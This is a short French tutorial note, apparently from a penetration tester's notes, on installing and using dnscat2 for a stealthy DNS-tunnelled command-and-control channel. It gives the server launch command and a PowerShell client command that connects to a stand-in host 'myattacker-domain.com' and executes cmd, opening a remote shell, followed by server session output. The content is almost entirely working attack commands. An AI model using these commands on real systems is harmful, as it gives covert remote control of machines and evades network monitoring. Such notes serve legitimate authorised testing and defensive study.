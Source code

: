 ```yaml
---
public: true # set to true to make the article publishable
---
```


Cet outil offre de la furtivité mais cela au détriment des performances. Il faudra l'utiliser uniquement lorsque la discrétion est une priorité

## Installation

```
sudo apt install dnscat2
```

## Utilisation

### Serveur

```
# lance le listener et affiche la ligne de commande à lancer sur la cible
sudo dnscat2-server --dns domain=blabla.fr
[...]
./dnscat --secret=9daeec39519fcba5c8a62a8b157f5e1e blabla.fr
```

### Client

#### Powershell

```
git clone https://github.com/lukebaggett/dnscat2-powershell.git

Import-Module .\dnscat2.ps1
Start-Dnscat2 -DNSserver 1.2.3.4 -Domain myattacker-domain.com -PreSharedSecret xxxxxxxxxxxxxxxxxxxxxxxx -Exec cmd 
```

```
# Sur le serveur, apres que le client se soit connecté :
window
0 :: main [active]
  crypto-debug :: Debug window for crypto stuff [*]
  dns1 :: DNS Driver running on 0.0.0.0:53 domains = blabla.fr [*]
  1 :: (not set) [cleartext] [idle for 446 seconds]
  2 :: exec (MYHOST) [encrypted and verified] [*]     <====== NOTRE SESSION

# interaction
window -i 2

## ATTENTION : lorsque l'on saisie une commande, cela met beaucoup de temps à retourner une réponse !!

```
